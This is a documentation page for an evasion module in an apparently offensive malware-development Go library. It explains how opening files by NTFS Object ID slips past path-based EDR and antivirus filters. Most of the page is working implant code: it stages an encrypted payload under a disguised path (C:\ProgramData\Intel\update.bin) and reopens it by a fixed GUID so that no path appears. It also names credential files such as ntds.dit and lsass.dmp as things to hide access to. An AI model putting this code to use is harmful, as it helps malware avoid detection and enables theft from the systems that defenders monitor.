

# StealthOpen — NTFS Object ID File Access

[<- Back to Evasion](README.md)

**MITRE ATT&CK:** [T1036 - Masquerading](https://attack.mitre.org/techniques/T1036/)
**Package:** `evasion/stealthopen`
**Platform:** Windows (NTFS only)
**Detection:** Low

---

## Primer

Most file-monitoring tools (EDR minifilters, AV path filters, `Sysmon`
FileCreate rules) decide whether to alert based on the **filename or path**
that the process tried to open. If you can open the same file without ever
mentioning its path, those filters go blind.

NTFS supports this natively. Every file can carry a 128-bit **Object ID** in
its MFT record. Once that Object ID is known, Win32's `OpenFileById` opens the
file by GUID — the kernel never sees a path in the open request, so any hook
matching on `*.docx`, `ntds.dit`, `lsass.dmp`, etc. simply does not fire.

---

## How It Works



**Key points:**
- `FSCTL_CREATE_OR_GET_OBJECT_ID` lazily assigns an Object ID if the file has
  none; `FSCTL_SET_OBJECT_ID` installs a caller-chosen GUID (useful for
  pre-shared identifiers between implant and operator).
- `OpenFileById` with `FILE_ID_TYPE = ObjectIdType` requires a volume handle,
  not a path — the kernel dispatches straight to the MFT.
- Minifilters that resolve `FILE_OBJECT` back to a path via
  `FltGetFileNameInformation` **do** still see the real file — this technique
  defeats name-keyed filters, not every defensive mechanism.

---

## Usage

```go
import "github.com/oioio-space/maldev/evasion/stealthopen"

// One-time: stamp the sensitive file so we can recall its GUID later.
id, err := stealthopen.GetObjectID(`C:\sensitive.bin`)
if err != nil {
    log.Fatal(err)
}

// Later — without ever mentioning the path:
f, err := stealthopen.OpenByID(`C:\`, id)
if err != nil {
    log.Fatal(err)
}
defer f.Close()

io.Copy(os.Stdout, f)
```

**Installing a known GUID** (pre-shared between stager and second stage):

```go
well := [16]byte{0xDE, 0xAD, 0xBE, 0xEF, /* ... */}
_ = stealthopen.SetObjectID(`C:\ProgramData\tmp.cfg`, well)

// Second stage knows the GUID by constant — no path string on either side.
f, _ := stealthopen.OpenByID(`C:\`, well)
```

---

## Combined Example

Drop an encrypted payload, stamp it with a fixed Object ID, then delete all
path traces from the implant so a later call opens the same bytes without any
filename string ever appearing in the implant image or in the kernel open
request.

```go
package main

import (
    "io"
    "os"

    "github.com/oioio-space/maldev/crypto"
    "github.com/oioio-space/maldev/evasion/stealthopen"
)

// Baked-in GUID — the only reference the second stage needs.
var payloadID = [16]byte{
    0x11, 0x22, 0x33, 0x44, 0x55, 0x66, 0x77, 0x88,
    0x99, 0xaa, 0xbb, 0xcc, 0xdd, 0xee, 0xff, 0x00,
}

func drop(key, plaintext []byte) error {
    const tmp = `C:\ProgramData\Intel\update.bin`
    blob, _ := crypto.EncryptAESGCM(key, plaintext)
    if err := os.WriteFile(tmp, blob, 0o644); err != nil {
        return err
    }
    return stealthopen.SetObjectID(tmp, payloadID)
}

func reopen(key []byte) ([]byte, error) {
    f, err := stealthopen.OpenByID(`C:\`, payloadID)
    if err != nil {
        return nil, err
    }
    defer f.Close()
    blob, err := io.ReadAll(f) // read via the path-free handle
    if err != nil {
        return nil, err
    }
    return crypto.DecryptAESGCM(key, blob)
}
```

The implant binary never contains the string `update.bin` nor a hard-coded
path — only the 16-byte GUID. Any EDR matching on `*.bin` under
`C:\ProgramData` misses the reopen.

---

## API Reference

See [evasion.md](../../evasion.md) (table row: `evasion/stealthopen`)
